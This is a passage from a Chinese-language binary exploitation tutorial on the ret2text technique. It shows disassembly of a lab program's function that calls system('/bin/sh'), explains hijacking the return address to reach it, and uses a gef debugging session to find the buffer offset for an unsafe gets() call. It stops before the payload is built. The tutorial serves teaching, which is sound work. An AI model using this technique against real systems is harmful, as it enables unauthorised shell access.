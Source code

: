 ```asm
.text:080485FD secure          proc near
.text:080485FD
.text:080485FD input           = dword ptr -10h
.text:080485FD secretcode      = dword ptr -0Ch
.text:080485FD
.text:080485FD                 push    ebp
.text:080485FE                 mov     ebp, esp
.text:08048600                 sub     esp, 28h
.text:08048603                 mov     dword ptr [esp], 0 ; timer
.text:0804860A                 call    _time
.text:0804860F                 mov     [esp], eax      ; seed
.text:08048612                 call    _srand
.text:08048617                 call    _rand
.text:0804861C                 mov     [ebp+secretcode], eax
.text:0804861F                 lea     eax, [ebp+input]
.text:08048622                 mov     [esp+4], eax
.text:08048626                 mov     dword ptr [esp], offset unk_8048760
.text:0804862D                 call    ___isoc99_scanf
.text:08048632                 mov     eax, [ebp+input]
.text:08048635                 cmp     eax, [ebp+secretcode]
.text:08048638                 jnz     short locret_8048646
.text:0804863A                 mov     dword ptr [esp], offset command ; "/bin/sh"
.text:08048641                 call    _system
```

在secure函数又发现了存在调用system("/bin/sh")的代码，那么如果我们直接控制程序返回至0x0804863A，那么就可以得到系统的shell了。

下面就是我们如何构造payload了，首先需要确定的是我们能够控制的内存地址距离main函数的返回地址的字节数。

```asm
.text:080486A7                 lea     eax, [esp+1Ch]
.text:080486AB                 mov     [esp], eax      ; s
.text:080486AE                 call    _gets
```

可以看到该字符串是通过相对于esp的索引，所以我们需要进行调试，将断点下在call处，查看esp，ebp，如下

```shell
gef➤  b *0x080486AE
Breakpoint 1 at 0x80486ae: file ret2text.c, line 24.
gef➤  r
There is something amazing here, do you know anything?

Breakpoint 1, 0x080486ae in main () at ret2text.c:24
24	    gets(buf);
───────────────────────────────────────────────────────────────────────[ registers ]────
$eax   : 0xffffcd5c  →  0x08048329  →  "__libc_start_main"
$ebx   : 0x00000000
$ecx   : 0xffffffff
$edx   : 0xf7faf870  →  0x00000000
$esp   : 0xffffcd40  →  0xffffcd5c  →  0x08048329  →  "__libc_start_main"
$ebp   : 0xffffcdc8  →  0x00000000
$esi   : 0xf7fae000  →  0x001b1db0
$edi   : 0xf7fae000  →  0x001b1db0
$eip   : 0x080486ae  →  <main+102> call 0x8048460 <gets@plt>
```
